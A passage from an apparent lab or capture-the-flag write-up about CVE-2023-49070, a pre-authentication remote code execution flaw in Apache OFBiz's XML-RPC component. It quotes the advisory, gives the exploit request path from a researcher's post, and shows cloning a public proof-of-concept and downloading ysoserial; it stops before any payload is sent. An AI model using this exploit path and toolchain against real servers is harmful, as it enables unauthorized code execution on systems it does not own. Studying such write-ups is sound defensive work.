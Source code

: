 #### Background

[NVD](https://nvd.nist.gov/vuln/detail/CVE-2023-49070) doesn’t give too much
in the way of detail:

> Pre-auth RCE in Apache Ofbiz 18.12.09. It’s due to XML-RPC no longer
> maintained still present. This issue affects Apache OFBiz: before 18.12.10.
> Users are recommended to upgrade to version 18.12.10

There is an XML-RPC component that is no-longer maintained, and somehow
accessible pre-auth. Execution is achieved by sending a serialized Java object
to the XML-RPC component. The original discoverer of the vulnerability is a
security researcher, [@siebene@](https://twitter.com/Siebene7/):

>
> [#CVE](https://twitter.com/hashtag/CVE?src=hash&ref_src=twsrc%5Etfw)-2023-49070  
> Pre-auth RCE Apache Ofbiz
> 18.12.09[#POC](https://twitter.com/hashtag/POC?src=hash&ref_src=twsrc%5Etfw):  
> /webtools/control/xmlrpc;/?USERNAME=&PASSWORD=s&requirePasswordChange=Y  
>  
> Ref: <https://t.co/NSgI7IQckp>  
>  
> cc to me. [pic.twitter.com/SHOkhzlH09](https://t.co/SHOkhzlH09)
>
> — Siebene@ (@Siebene7) [December 5,
> 2023](https://twitter.com/Siebene7/status/1731870759130427726?ref_src=twsrc%5Etfw)

### RCE

#### Prep

I’ll grab a POC script [from abdoghazy2015’s
GitHub](https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC). It
requires a copy of [ysoserial](https://github.com/frohoff/ysoserial) in the
same directory in order to build a specific serialized payload with the
desired command. Then it builds an XML payload using that attack payload, and
submits it to `/webtools/control/xmlrpc;/` just like in the Tweet above.

I’ll clone a copy of the repo and get `ysoserial-all.jar`:

    
    
    oxdf@hacky$ git clone https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC.git
    Cloning into 'ofbiz-CVE-2023-49070-RCE-POC'...
    remote: Enumerating objects: 30, done.
    remote: Counting objects: 100% (30/30), done.
    remote: Compressing objects: 100% (23/23), done.
    remote: Total 30 (delta 7), reused 0 (delta 0), pack-reused 0
    Receiving objects: 100% (30/30), 8.23 KiB | 8.23 MiB/s, done.
    Resolving deltas: 100% (7/7), done.
    oxdf@hacky$ cd ofbiz-CVE-2023-49070-RCE-POC/
    oxdf@hacky$ wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar
    --2024-05-20 15:55:41--  https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar
    Resolving github.com (github.com)... 140.82.113.4
    Connecting to github.com (github.com)|140.82.113.4|:443... connected.
    HTTP request sent, awaiting response... 302 Found
    Location: https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar [following]
    --2024-05-20 15:55:41--  https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar
    Reusing existing connection to github.com:443.
    HTTP request sent, awaiting response... 302 Found